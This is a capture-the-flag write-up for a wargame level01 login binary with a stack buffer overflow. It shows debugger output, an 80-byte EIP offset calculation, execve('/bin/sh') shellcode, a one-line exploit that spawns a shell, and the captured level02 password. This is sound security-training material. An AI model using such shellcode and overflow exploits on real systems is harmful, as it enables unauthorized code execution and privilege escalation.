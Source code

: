 # Level 01 Buffer Overflow

## Overview
The binary is a basic login program that prompts for a `username` and `password`. It contains two `fgets()` functions with buffers of size `256` and `100`, suggesting potential **buffer overflow** vulnerabilities that could lead to *flow redirection* and *shellcode* execution.

### Main Function
```bash
./resources/r2.sh level01
[...]
[0x080483b0]> aaa
[0x080484d0]> s main
[0x080484d0]> V
[0x080484d0]> V
```
![R2 graph](../docs/media/l1.r2.png)

### Verify Username
The username comparison involves checking the first 7 characters against `"dat_wil"`, preventing a buffer overflow attack on this `fgets()` function.
```bash
[...]
[0x080484d0]> s sym.verify_user_name
[0x08048464]> V
[0x08048464]> V
```
![R2 Verify Username](../docs/media/l1.verify_username.png)

### `fgets` Buffer Sizes
Using `ltrace`, the buffer sizes of the 2 `fgets()` are 256 and 100 characters, on the addresses `0x0804a040` and `0xffffd6ec` respectively.
We can try to find out if the stack frame size available after the second `fgets()` call, is inside the size of the buffer, to see if we can overwrite the `EIP` address to redirect the flow.
```
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                     = 39
printf("Enter Username: ")                                      = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n"verifying username....

)                                = 24
puts("Enter Password: "Enter Password: 
)                                        = 17
fgets(hello
"hello\n", 100, 0xf7fcfac0)                               = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)                           = 29
+++ exited (status 1) +++
```

### Finding EIP Offset
#### `gdb` Disassembled Main
```gdb
(gdb) disassemble main 
Dump of assembler code for function main:
   [...]
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>          # fgets username
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>   # verify username
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>          # fgets password
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>   # verify password
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret    
End of assembler dump.
```
#### Breakpoint after Password `fgets`
```
(gdb) break *0x08048579                                     # break after fgets password
Breakpoint 1 at 0x8048579

Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Hello this is the buffer :)

Breakpoint 1, 0x08048579 in main ()
```
#### EIP - Buffer Address
To finally find the `offset`, we need to find the difference between our `Buffer Address` and the `EIP` (address of the next instruction to be executed).
```
(gdb) x/s $eax
0xffffd6cc:	 "Hello this is the buffer :)\n"
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
```

$$
\begin{aligned}
\text{EIP} &= \texttt{0xffffd71c} \\
\text{Buffer Address} &= \texttt{0xffffd6cc} \\
\texttt{0xffffd71c} - \texttt{0xffffd6cc} &= 80 \\
\text{Offset} &= 80
\end{aligned}
$$

## Resolution

Information recollected:
- User inputs
    - Username `fgets` input.
        - **Buffer size** of 256.
        - **Buffer address** is `0x0804a040`.
        - `memcmp` of size 7.
    - Password `fgets` input.
        - **Buffer size** of 100.
        - **Buffer address** is `0xffffd6ec`.
        - The `EIP` is reachable from this **buffer**.

This is a very convenient scenario to inject *shellcode* inside the unused section of the first **buffer**, and redirect the flow changing the `EIP` to point to our *shellcode* address, using the second **buffer**.

## Payload

$$
\begin{aligned}
\text{Buffer1.address + 7} &= \text{"\textbackslash x47\textbackslash xa0\textbackslash x04\textbackslash x08"} \\
\text{Buffer1} &= \text{"dat\_wil"} + \text{Shellcode} \\
\text{Buffer2} &= \text{80 character padding} + \text{Buffer1.address + 7}
\end{aligned}
$$

### Shellcode
```C
execve("/bin/sh", NULL, NULL) = 
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

## Result

This one line command is able to run a shell as a level02 user.
```bash
cat <(printf "dat_wil\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n%80c\x47\xa0\x04\x08\n" | tr ' ' 'a') - | ./level01
```

## Flag

```bash
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
